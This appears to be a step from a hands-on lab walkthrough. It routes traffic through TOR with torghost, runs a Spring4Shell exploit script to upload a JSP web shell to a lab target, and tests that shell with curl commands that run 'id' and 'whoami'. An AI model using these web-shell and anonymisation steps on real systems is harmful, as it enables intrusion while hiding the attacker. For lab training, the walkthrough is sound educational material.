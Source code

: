 2.	Mostly attackers hide their IP address using the TOR network. in order to demonstrate this attack, we are going to use the script torghost.py that help us run command behind the tor network.

**You need to download script and install by using below command download**

```
git clone https://github.com/SusmithKrishnan/torghost.git
```

```
cd torghost
```

**Build the script** 

```
bash build.sh
```
   
**Install the python packages**

```
sudo pip3 install -r requirements.txt --break-system-packages
```

**Now run the script**

```
sudo python3 torghost.py -s
```
   
![](./images/pan05.png)


>**Note**:- **You have to find your application server IP, also known as your target IP, which can be found on the lab environment details page and is your Ubuntu machine public IP.**

![](./images/applicationServerIP01.png)

3.	In order to exploit and upload the shell, run the below command and provide target IP with your spring4shell vulnerable application target IP.

```
bash /tmp/exploit.sh
```

![](./images/pan06.png)

4.	We are going to run below command to check our shell is working.
   
```
curl --output - http://<TARGET IP>/shell.jsp?cmd=id
```
![](./images/pan07.png)

```
curl --output - http://<TARGET IP>/shell.jsp?cmd=whoami
```
    
![](./images/pan08.png)
